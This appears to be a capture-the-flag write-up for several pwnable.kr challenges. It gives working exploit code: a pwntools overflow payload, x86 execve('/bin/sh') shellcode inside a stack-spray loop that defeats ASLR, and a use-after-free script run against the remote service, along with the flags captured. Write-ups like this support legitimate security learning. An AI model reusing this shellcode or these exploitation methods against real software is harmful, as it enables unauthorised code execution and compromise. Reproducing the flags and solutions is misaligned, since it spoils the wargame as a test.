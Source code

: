 #### Simple login

```python
from pwn import *
import base64
payload = pack(0xdeadbeef)+pack(0x804925f)+pack(0x811eb40)
print  base64.encodestring(payload)
```

There was a memcpy in auth()  which lead to overflow of ebp , then eip = *(ebp+4) now we place &correct() in our payload which is 
stored in global variable 

##### flag :control EBP, control ESP, control EIP, control the world~

#### OTP 

this had no vuln i know , but apparently u have to use ulimit -f 0 so the passcode file is not created and we can enter '' password
but i still wonder why we have to use subprocces.Popen(['otp',''],stderr=stdout)

#### Tiny Easy

this prog just executed our argv[0] and it had aslr ON , using execv we can give argv[0] whatever we want , and to bypass aslr
we <b> spray the stack with environment variable </b>

```python
import os
import struct

shellcode="\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
nopsled = "\x90"*4096;  
payload = nopsled+shellcode

myenv = {}  
for i in range(0,100):  
	myenv["spray"+str(i)] = payload

#envaddr = pack(0xffff3ead)
envaddr = struct.pack("<I",0xff8402c7)

while True:
	print "trying ...."
	p = subprocess.Popen([envaddr], executable="./tiny_easy", env=myenv)
	p.wait()
````
##### flag: What a tiny task :) good job!

#### Fsb 
it was a format string bug , and program asks u to guess a key(random val) ,there are 3 ways to solve problem : <br> 
    1) Leak key ( i did ,but problem is stroull is treadted as int if <stdlib.h> is not included ) <br>
    2) Overwrite key ( it takes a lot of time to print , u had to redirect to > /dev/null ) <br>
    3) Change the control flow ( which i have to try ) <br>
    
##### flag :Have you ever saw an example of utilizing [n] format character?? :(    
    
#### Dragon 
This problem was good , it took me 1 day to complete , u have to fight with dragon and if u win u get UAF to exploit , 
the dragon's power is 2 bytes stored in heap all u have to do is increment it;s power to 128 which is will overflow to 0 
and then exploit the bug to get the flag 
```python
from pwn import * 

#p = process('./dragon')

p = remote('pwnable.kr' ,9004)


p.recvlines(4)
p.sendline('2')
print "[+] playing with baby dragon"
p.recvlines(7)
p.sendline('2')
p.recvlines(9)
p.sendline('1')
print "[+] playing with mama dragon"
p.recvlines(9)
for i in range(3):
        print "[+] Activating Sheild"
	p.sendline('3')
	p.recvlines(10)
	print "[+] Using Sheild"
	p.sendline('3')
	p.recvlines(10)
	print "[+] Using clarity"
	p.sendline('2')
	p.recvlines(11)


print "[+] Activating Sheild"
p.sendline('3')
p.recvlines(10)
print "[+] Using Sheild"
p.sendline('3')
p.recvlines(10)
print "[+] Using clarity"
p.sendline('2')
p.recvuntil(':')

print "[+] Dragon killed !! , we Won !!"
p.sendline(pack(0x08048dbf))
p.interactive()

```
###### flag : MaMa, Gandhi was right! :)








